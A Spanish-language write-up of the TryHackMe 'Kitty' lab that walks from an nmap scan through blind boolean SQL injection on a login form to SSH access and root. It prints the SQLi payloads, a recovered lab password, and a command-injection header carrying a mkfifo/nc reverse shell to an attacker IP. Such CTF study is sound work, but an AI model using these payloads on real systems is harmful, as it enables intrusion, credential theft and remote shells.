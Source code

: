```yaml
---
title: "Kitty  Writeup - Try-Hack-Me"
date: 2024-02-05
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Medium]
image: 
  path: assets/img/imagenes/Kitty.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Kitty banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:02 EST
Nmap scan report for 10.10.64.85
Host is up (0.18s latency).
Not shown: 64902 closed tcp ports (reset), 631 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b0:c5:69:e6:dd:6b:81:0c:da:32:be:41:e3:5b:97:87 (RSA)
|   256 6c:65:ad:87:08:7a:3e:4c:7d:ea:3a:30:76:4d:04:16 (ECDSA)
|_  256 2d:57:1d:56:f6:56:52:29:ea:aa:da:33:b2:77:2c:9c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.21 seconds
```

### Ports: 22/ssh - 80/http

### Enumeración del puerto 80
vamos a intentar hacer una inyección sqli
![img](/assets/img/imagenes/Pasted image 20240204210908.png)

![img](/assets/img/imagenes/Pasted image 20240204211038.png)
parece que la pagina esta en mantenimiento. 

vamos a probar otras inyecciones diferentes
![img](/assets/img/imagenes/Pasted image 20240204213231.png)

![img](/assets/img/imagenes/Pasted image 20240204213305.png)

### Fuzzing con gobuster

![img](/assets/img/imagenes/Pasted image 20240204213332.png)
parece que no tenemos ningún directorio que sea de ayuda. 

### sqli usando Burpsuite

```python
	'+and+substring(database(),1,1)="a"+#
```

vamos a interceptar una peticion con burpsuite
![img](/assets/img/imagenes/Pasted image 20240204220002.png)

intruder
![img](/assets/img/imagenes/Pasted image 20240204220113.png)

configuramos el payloads
![img](/assets/img/imagenes/Pasted image 20240204220220.png)
obtenemos como respuesta 

```python
	username=kitty'+and+substring(database(),1,1)="m"+#&password=kitty
```

para la segunda posición obtenemos la letra "y"
![img](/assets/img/imagenes/Pasted image 20240204222627.png)

para el tercer posición obtenemos la letra "w"
![img](/assets/img/imagenes/Pasted image 20240204223225.png)
tenemos que hacer esto cambiando la posición hasta conseguir información sobre el nombre de la base de datos

usaremos este parametro para obtener informacion sobre las tablas

```python
	username=kitty'+and+substring((select+table_name+from+information_schema.tables+where+table_schema="mywebsite"+limit+0,1),1,1)="a"+#&password=kitty
```

el primer resultado nos da la letra "s"
![img](/assets/img/imagenes/Pasted image 20240204235500.png)

ejecutamos el ataque cambiando la posición, en este caso nos da la letra "i"
![img](/assets/img/imagenes/Pasted image 20240205000151.png)
tenemos que hacer esto hasta sacar el nombre de la tabla

```python
	username=kitty'+AND+SUBSTRING((SELECT+username+from+siteusers+LIMIT+0,1),1,1)="a"+#&password=kitty
```

sacamos carácter de la posición 4 "g"  
![img](/assets/img/imagenes/Pasted image 20240205001529.png)
hacemos esto desde la posición 1 hasta conseguir todos los caracteres

```python
	username: kitty
	password: L0ng_Liv3_kittY
```

### ssh

![img](/assets/img/imagenes/Pasted image 20240205003102.png)

### Escalada de Privilegios

![img](/assets/img/imagenes/Pasted image 20240205004914.png)
parece que este script hace un guardado en logged de los intentos de sqli que se hacen en el panel de login de parte del desarrolador

conexion por ssh haciendo un port forwarding  
![img](/assets/img/imagenes/Pasted image 20240205005339.png)

### localhost:8080

![img](/assets/img/imagenes/Pasted image 20240205005619.png)
tenemos conexión por el puerto 8080 en el que vemos la web de parte del desarrollador

### Burpsuite
usamos la inyeccion sqli para que esta informacion se guarde en el archivo logged y agregamos la linea

```python
	X-Forwarded-For: $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.157.7 7890 >/tmp/f)
```

![img](/assets/img/imagenes/Pasted image 20240205011158.png)
esperamos un rato a que se haga el guardado.

### WE ARE ROOT

![img](/assets/img/imagenes/Pasted image 20240205012010.png)
